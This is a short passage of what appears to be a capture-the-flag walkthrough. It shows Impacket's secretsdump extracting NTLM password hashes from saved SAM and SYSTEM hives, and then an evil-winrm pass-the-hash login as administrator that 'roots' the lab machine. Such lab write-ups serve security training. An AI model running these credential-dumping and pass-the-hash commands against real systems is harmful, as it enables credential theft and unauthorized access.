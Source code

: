 - Run the Script

```sh
┌──(alienum㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ts local -system system.bak -sam sam.bak
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[2021-04-16 18:00:01] [*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[2021-04-16 18:00:01] [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6<REMOVED>7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
[2021-04-16 18:00:02] [*] Cleaning up...
```

![image]( /assets/img/owl/12.PNG)


## Rooted

![image]( /assets/img/owl/13.PNG)

`evil-winrm -i 10.10.14.162  -u administrator -H 6<REMOVED>a`
